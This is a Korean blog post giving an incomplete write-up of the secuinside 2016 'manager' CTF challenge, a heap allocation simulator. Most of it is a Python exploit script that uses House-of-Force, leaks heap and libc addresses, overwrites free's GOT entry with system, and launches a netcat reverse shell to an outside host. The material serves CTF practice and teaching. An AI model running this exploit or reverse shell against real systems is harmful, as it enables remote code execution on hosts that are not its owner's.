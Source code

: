 ```yaml
---
layout: post
title: secuinside 2016 manager writeup (incomplete)
category: writeup
---
```


KR version

이번에는 끝까지 풀지를 못해서 ㅠㅠ flag를 얻지는 못했다.
manager 문제는 allocation simulator 역할을 하는 바이너리가 주어져있고,
힙을 조작해서 취약점을 만드는 문제이다.

분석을 해 보면, while문을 통해 16바이트짜리 쿼리를 계속 보내는 것을 알 수 있다.
|cmd len check index| (각 4바이트) 형태로 되어있고, 

check = 15

cmd = 0~5 (0 : init, 1 : write, 2 : malloc, 3 : realloc, 4 : print, 5 : free)

index = 0 ~ 9


취약점은 크게 두가지가 있다. 

1. malloc에서 길이를 구조체에 저장하는데, 실제 malloc된 크기는 4096이 아니면서 구조체에 4096을 저장할 수 있다. (buffer overwrite가능)

2. realloc에서 음수 크기가 가능하다.

두 취약점을 조합해 House-of-force 기법을 쓸 수 있다. 하지만 릭이 없어서 어디에 write를 할 지 모르는데, House-of-force는 offset을 기반으로 움직이기 때문에 힙의 앞부분으로도 덮어쓸 수 있다. 이것을 이용하여 처음의 40byte 구조체를 덮어쓰면, malloc할 때의 주소를 읽을 수 있고, heap_base를 찾을 수 있다.

heap_base와 binary base가 0x???000 정도 차이나는 것을 이용(차이는 컴퓨터마다 일정) 하여 \x7fELF가 나오는 부분을 찾아 binary base를 계산한다.

이후 free의 pointer를 system으로 바꾸고, 힙에 "nc myserver 10291 &#124; /bin/sh &#124; nc myserver 10292" 처럼 reverse shell을 만든 후 free를 해주면 완성!

```python
import pwnbox
import struct

#p = pwnbox.pipe.SocketPipe('chal.cykor.kr',22222)
p = pwnbox.pipe.SocketPipe('127.0.0.1',22222)


def query(command,length,selector):
    p.write(struct.pack("<IIII",command,length,15,selector))

def init_cell(num):
    query(0,0,num)

def set_cell_len(num,len_):
    query(2,len_,num)

def write_cell(num,data):
    query(1,0,num)
    p.write(data)

def read_cell(num):
    query(4,0,0)
    p.write(struct.pack("<I",num))

def free_cell(num):
    query(5,0,0)
    p.write(struct.pack("<I",num))

def realloc_cell(num,len_,data):
    query(3,0,0)
    p.write(struct.pack("<II",len_,num))
    p.write(data)

def fail():
    p.write("\x00"*16)

def a_read_byte(addr):
    spayload = ""
    spayload += struct.pack("<q",-1)
    spayload += struct.pack("<i",-1) # len
    spayload += struct.pack("<i",-1)
    spayload += struct.pack("<q",addr) # buf
    spayload += struct.pack("<i",-1) # cmd
    spayload += struct.pack("<i",-1) # chk
    spayload += struct.pack("<i",1) # buf_set
    spayload += struct.pack("<i",-1)
    realloc_cell(0,0x100,"\xff"*0x10 + spayload.ljust(0xf0,'\x00'))
    read_cell(3)
    p.read_until('3=> ')
    retVal = p.read_byte(1)
    if retVal == '\n' and p.read_byte(1) == '\n':
        retVal = '\x00'
    return retVal

def a_write(addr,data):
    spayload = ""
    spayload += struct.pack("<q",-1)
    spayload += struct.pack("<i",len(data)) # len
    spayload += struct.pack("<i",-1)
    spayload += struct.pack("<q",addr) # buf
    spayload += struct.pack("<i",-1) # cmd
    spayload += struct.pack("<i",-1) # chk
    spayload += struct.pack("<i",1) # buf_set
    spayload += struct.pack("<i",-1)
    realloc_cell(0,0x100,"\xff"*0x10 + spayload.ljust(0xf0,'\x00'))
    realloc_cell(3,len(data),data)


def a_read(addr,len_):
    x = ""
    for i in range(len_):
        x = x + a_read_byte(addr+i)
    return x

p.read_until('alloc manager!')

init_cell(0)
init_cell(3)
init_cell(5)
init_cell(6)
init_cell(7)
set_cell_len(5,0x180)

set_cell_len(5,4097)

write_cell(5,('A'*0x188+struct.pack("<Q",0xffffffffffffffff)).ljust(0x1000))

realloc_cell(3,4294966528,"a") # -768

#p.interact()

realloc_cell(0,0x100,"\xff"*0x20)
#write_cell(0,"\xff"*0x10+spayload.ljust(0xf0,'\x00'))

read_cell(0)
p.read_until('0=> ')
x = p.read_byte(0x20+8)

heap_base = struct.unpack('<Q',x[0x20:])[0] & 0x0000fffffffff000

print "Heap base : %x" % heap_base

bin_base = heap_base - 0x1d0b000 # in local machine

got_malloc = bin_base + 0x2040E8
got_free = bin_base + 0x204018

libc_malloc = struct.unpack("<Q",a_read(got_malloc,8))[0]

print "%x" % libc_malloc
# libc (in local machine)
libc_base = libc_malloc - 0x82750
libc_system = libc_base + 0x46640
print "%x" % libc_base
a_write(got_free, struct.pack("<Q",libc_system))

print "%x" % struct.unpack("<Q",a_read(got_free,8))[0]

a_write(heap_base+0x1000,"nc myserver 10291 | /bin/sh | nc myserver 10292\x00")


free_cell(3)


p.interact()
```

안타까운 점은 문제서버 libc의 malloc과 다르기 때문인지 offset이 안맞아서 서버 익스는 못했다...